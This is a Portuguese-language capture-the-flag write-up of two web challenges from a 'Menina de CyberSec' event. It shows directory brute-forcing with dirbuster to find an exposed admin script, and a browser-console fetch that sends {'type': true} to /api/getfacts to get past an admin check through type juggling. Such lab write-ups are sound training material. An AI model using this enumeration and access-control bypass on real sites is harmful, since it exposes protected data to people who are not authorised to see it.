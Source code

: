 # Capture The Flag - Menina de CyberSec

# CTF

CTF (Capture The Flag) realizado entre os dias 12 e 15 de Novembro, no servidor Menina de CyberSec.

# WEB

![](/meninaCyberSec/pics/web2.png)

## Desafio: Não odeio o JavaScript! :triangular_flag_on_post:

<code>formato da flag **MCS{xxxx_xxxx_xxxx_xxx}**</code>

```
Esse desafio tinha um arquivo .txt e ao abri-lo, tinha endereço do site para analisarmos.
```

### Análise

1. Analisei o page source
2. Na pagina tinha dois buttons, cliquei em ambos com o console e network abertos.

O segundo button me chamou atenção. Ao clicar aparecia a seguinte mensagem na página:

```bash
Secrets can only be accessed by admin
```

A palavra **admin** poderia me levar para algum diretório ou poderia existir um diretório de login</br>
Tentei acessa a URL com o <strong>/admin</strong> e retornou:

```bash
403 Forbidden
```

Status code **403** de não permitido. Diretório existe, mas eu não tenho permissão. </br>

Utilizando a ferramenta <strong>dirbuster</strong> técnica de bruteforce para encontrar objetos, arquivos e diretórios do site, me retornou algums diretórios com status code <strong>200</strong>, ou seja diretórios que não precisam de autorização para acessar.</br>

```bash
200 /admin/admin.js
200 static/js/index.js
```

Acessei **url/admin/admin.js** e nesse arquivo estava a flag:

> "MCS{3num3r4t10n_F0rfun_4nd_Pr0f1t}"

<hr>

## Desafio: Nosferatu :triangular_flag_on_post:

<code>Formato da flag: MCS{xxxx_xxxx_xxxx_xxxx_xxxx}</code>

Continuação da análise do site.</br>

Como tinha me retornado a url <strong>static/js/index.js</strong>, eu acessei e me retornou o diretório com a regra de negócio da aplicação. </br>

## Análise

Analisei o código **index.js** e vi que na regra de negócio tinha uma requisição POST **/api/getfacts** </br>

Na página do button 2, não aparece o array com as informações. Caindo diretamente no **else**

```js
 facts_html = '<div></div><div class="error">Secrets can only be accessed by admin</div>';
```

Ou seja, o body tá indo vazio/false.

```js
const loadfacts = async (fact_type) => {
    await fetch('/api/getfacts', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({ 'type': fact_type })
    })
        .then((response) => response.json())
        .then((res) => {
            if (!res.hasOwnProperty('facts')){
                populate([]);
                return;
            }

            populate(res.facts);
        });
}
```

O que eu posso tentar é passar como true no body e rodar o scritp no console do navegador.

```js
fetch('/api/getfacts', {
  'method': 'POST',
  'headers': {
    'Content-Type': 'application/json'
  },
  'body': "{\"type\":true}"
}).then((response)=>response.json()).
    then((response)=>console.log(response));
```

![](/meninaCyberSec/pics/flga2.png)

E a flag foi retornada:

> MCS{0wn3d_fl4g_f0r_typ3_Juggl1ng}
